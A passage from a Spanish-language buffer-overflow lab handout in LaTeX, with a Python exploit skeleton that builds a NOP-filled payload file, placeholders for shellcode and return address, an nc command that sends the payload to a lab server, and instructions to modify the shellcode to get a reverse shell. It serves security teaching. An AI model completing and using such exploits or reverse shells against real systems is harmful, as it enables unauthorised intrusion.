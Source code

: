 \newcommand{\needtochange}{\ding{73} Necesita completarse \ding{73}}


\begin{lstlisting}[language=python, caption={The skeleton exploit code (\texttt{exploit.py})}]
#!/usr/bin/python3
import sys

# You can copy and paste the shellcode from Task 1
shellcode = (
  ""                     # (*@\needtochange@*)
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start =  0               # (*@\needtochange@*)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and save it somewhere in the payload
ret    = 0xAABBCCDD      # (*@\needtochange@*)
offset = 0               # (*@\needtochange@*)

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}

Al terminar de completar el programa anterior, debe correrlo. Esto generará el contenido para el archivo \texttt{badfile}. Una vez generado debe ser enviado al servidor vulnerable. Si el exploit es implementado de manera correcta, el código del shellcode será ejecutado. 
Si el comando usado genera algún output este será mostrado en dentro de los mensajes del contenedor. Por favor incluya las pruebas que muestren que su servidor vulnerable ha sido capaz de correr los siguientes comandos.

\begin{lstlisting}
$./exploit.py   // create the badfile
$ cat badfile | nc 10.9.0.5 9090
\end{lstlisting}
 

\paragraph{Shell Reversa.}
Dado que estamos haciendo un ataque a un servidor remoto desde nuestra máquina local, no nos servirá de mucho correr \texttt{/bin/sh} en el servidor vulnerable, ya que será ejecutado de forma local y no podremos tener el control sobre esta shell desde nuestro lado. Una de las técnicas más comúnes para lograr control sobre un servidor a través shell de forma remota es la Shell Reversa. En la Sección \ref{sec:guildelines} se explica como correr una shell reversa.
Ud. deberá de modificar la cadena de comandos en el shellcode, para poder obtener una shell reversa en el servidor vulnerable.
Por favor incluya las explicaciones pertinentes junto con los screenshots de este procedimiento en el informe del laboratorio.


